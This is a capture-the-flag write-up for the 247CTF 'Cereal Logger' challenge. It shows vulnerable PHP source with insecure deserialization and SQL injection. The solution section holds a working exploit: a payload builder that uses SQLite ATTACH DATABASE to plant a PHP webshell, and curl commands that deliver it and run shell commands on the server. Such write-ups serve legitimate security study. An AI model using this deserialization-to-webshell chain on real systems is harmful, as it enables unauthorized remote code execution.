 # CEREAL LOGGER [HARD]

## Description

> Using a specially crafted cookie, you can write data to /dev/null. Can you abuse the write and read the flag?

## Source Code

<details><summary>Click here for source code in text format</summary>

```php
<?php

class insert_log
{
    public $new_data = "Valid access logged!";
    public function __destruct()
    {
        $this->pdo = new SQLite3("/tmp/log.db");
        $this->pdo->exec("INSERT INTO log (message) VALUES ('".$this->new_data."');");
    }
}

if (isset($_COOKIE["247"]) && explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0") {
    file_put_contents("/dev/null", unserialize(base64_decode(explode(".", $_COOKIE["247"])[0])));
} else {
    echo highlight_file(__FILE__, true);
}
```

</details>

## Short Solution Description / Tags

Insecure Deserialization in PHP, SQLite SQL Injection, RCE

## Solution

```php
explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"
```

Regard with this if condition, we can set it to true with the cookie 247=\<b64>.0e.

To create webshell, set SQLi Attach Database payload to new_data property of insert_log class.

create_payload.php

```php
<?php
class insert_log
{
    public $new_data = "";
}

$obj = new insert_log();
$obj->new_data = $obj->new_data . '\');';
$obj->new_data = $obj->new_data . "ATTACH DATABASE 'pwn2.php' AS lol;";
$obj->new_data = $obj->new_data . "CREATE TABLE lol.pwn (dataz text);";
$obj->new_data = $obj->new_data . 'INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET[\'cmd\']); ?>");';
$obj->new_data = $obj->new_data . '--';

echo base64_encode(serialize($obj));
```

Result:

```console
$ PAYLOAD=$(php create_payload.php)

$ curl https://7aeff6c2aea837f4.247ctf.com/ -b "247=$PAYLOAD.0e"

$ curl -o- -s https://7aeff6c2aea837f4.247ctf.com/pwn2.php -G --data-urlencode "cmd=grep -ao '247CTF{[0-9a-f]*}' /tmp/log.db"
 I247CTF{[REDACTED]}
```

## References

- [Remote Command Execution using SQLite command - Attach Database](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/SQLite%20Injection/#remote-command-execution-using-sqlite-command-attach-database)
